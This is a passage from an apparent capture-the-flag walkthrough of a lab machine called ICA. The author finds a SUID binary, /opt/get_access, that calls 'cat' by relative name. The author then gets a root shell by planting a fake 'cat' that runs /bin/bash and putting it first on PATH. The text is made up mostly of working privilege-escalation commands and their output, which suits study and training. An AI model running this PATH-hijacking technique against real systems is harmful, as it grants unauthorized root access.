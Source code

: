 After trying a few things, I search for SUID binaries:

```
dexter@debian:~$ find / -perm -u=s -type f 2>/dev/null
/opt/get_access
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/mount
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

The binary that stands out is the /opt/get_access, so I run it:

```
dexter@debian:~$ /opt/get_access 

  ############################
  ########     ICA     #######
  ### ACCESS TO THE SYSTEM ###
  ############################

  Server Information:
   - Firewall:  AIwall v9.5.2
   - OS:        Debian 11 "bullseye"
   - Network:   Local Secure Network 2 (LSN2) v 2.4.1

All services are disabled. Accessing to the system is allowed only within working hours.
```

It is clearly a script that runs other commands, when I run "strings /opt/get_access", I find out that it uses the "cat" command:

```
dexter@debian:~$ strings /opt/get_access
...
cat /root/system.info 
...
```

I then create a "bin" folder in the home, add a "cat" file that contains "/bin/bash" in it, make it executable and add the bin folder to the path, execute the /opt/get_access binary and get root:

```
dexter@debian:/home/dexter$ mkdir bin
dexter@debian:/home/dexter$ echo "/bin/bash" > bin/cat
dexter@debian:/home/dexter$ chmod +x bin/cat 
dexter@debian:/home/dexter$ export PATH="/home/dexter/bin:$PATH"
dexter@debian:/home/dexter$ /opt/get_access 
root@debian:/home/dexter#
```
